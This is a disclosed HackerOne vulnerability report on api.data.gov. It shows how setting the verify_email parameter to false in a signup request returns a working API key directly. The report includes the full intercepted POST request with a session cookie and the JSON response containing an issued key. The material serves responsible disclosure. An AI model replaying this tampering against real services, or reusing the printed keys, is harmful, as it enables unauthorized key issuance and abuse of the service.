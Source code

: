 # [api.data.gov] Leak Valid API With out Verification -

## Report Details
- **Report ID**: 266449
- **URL**: https://hackerone.com/reports/266449
- **State**: Closed
- **Severity**: none
- **Submitted**: 2017-09-06T20:09:19.590Z
- **Disclosed**: 2017-09-20T19:35:23.186Z

## Reporter
- **Username**: 0xsp
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: gsa_bbp

## Vulnerability Information
Description 
Remote attackers are able to retrieve a valid working api key with random Generation Process without a secure parsing or secure channel , human verification ..etc . 
the current proccess for requesting any api key is with signup form , and message with api delivered privately to user , developer ..etc 
so in this vulnerability any user can send alot of requests for any  email with valid leaked api key . 

Vulnerable module 
=================
[+] api-umbrella/v1/users.json 

Vulnerable parameter 
=====================
[+] options%5Bverify_email%5D


Proof of concept 
=============================
1. goes to signup form https://api.data.gov/signup/
2. intercept the post data 
3. change parameter value s%5Bverify_email%5D from True into false . 
4. successfully reproduce it 


poc logs 


```
POST /api-umbrella/v1/users.json?api_key=8Mndjk7k8ygsU4rM1lwBltMzet1FEAIuZeaqzEqV HTTP/1.1
Host: api.data.gov
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Referer: https://api.data.gov/signup/
Content-Length: 564
Cookie: _ga=GA1.3.122453759.1504205343; _ga=GA1.2.122453759.1504205343; _api_umbrella_session=NWdRUHhLcGQ4V0xjdFJ3OExpZmNjNjg1K1BIYXBIVjBySUkrczJibHNzckRETVJwUFBpWUlTQldaWm1HeGdIYUtGMWxIVEk1TXdCWkxtVnJ0NDlibmljVWNzQ2I5V3Brd3JMWDNqMEdKMXNjTXdvbmMxc3RjVG9WV1RJRGNtR3AyMUtCWnprYWY3d1YvdkZYTUtRUUNhMlA3SHJmZUlhMjIrQXhPQ3JwMWdmcEJBd0tWbm1sblhVa1R4a1Vqdlg2djh4ZXVieXVNSXYyVVdobXhEOWtFd0lxQm1mWW8vQkdweE9Ea3U1VzRZZnE0Q2NFU0RUNTY0cDRZdWRSaXdiRi0tYTBJbHBHbGZ6UTdlcm9vV2d4NDVRdz09--beda858f41948ac725e4c3aaae87c38e95d34136; _gid=GA1.3.1781902913.1504726572; _gid=GA1.2.1781902913.1504726572; _gat_GSA_ENOR0=1; _gat=1; _gat_legacy=1
Connection: close

user%5Bfirst_name%5D=hacker&user%5Blast_name%5D=hacker&user%5Bemail%5D=hacker%40gmail.com&user%5Buse_description%5D=&user%5Bterms_and_conditions%5D=1&user%5Bregistration_source%5D=web&options%5Bexample_api_url%5D=https%3A%2F%2Fapi.data.gov%2Fnrel%2Falt-fuel-stations%2Fv1%2Fnearest.json%3Fapi_key%3D%7B%7Bapi_key%7D%7D%26location%3DDenver%2BCO&options%5Bcontact_url%5D=https%3A%2F%2Fapi.data.gov%2Fcontact%2F&options%5Bsite_name%5D=&options%5Bsend_welcome_email%5D=true&options%5Bemail_from_name%5D=&options%5Bemail_from_address%5D=&options%5Bverify_email%5D=false

```


response 

```

{"user":{"id":"9f522604-6ccc-4135-a330-3dd678ae9621","first_name":"hacker","last_name":"hacker","email":"hacker@gmail.com","website":null,"use_description":"","registration_source":"web","throttle_by_ip":null,"roles":null,"enabled":true,"created_at":"2017-09-06T19:57:10Z","updated_at":"2017-09-06T19:57:10Z","api_key":"0dA6hjpXUG0V9Lj7kQkx8yiKkm9Go9H15VyPt8fs","settings":null,"creator":null,"updater":null}}

```

Best Regards 
 

## Attachments
- data.mp4
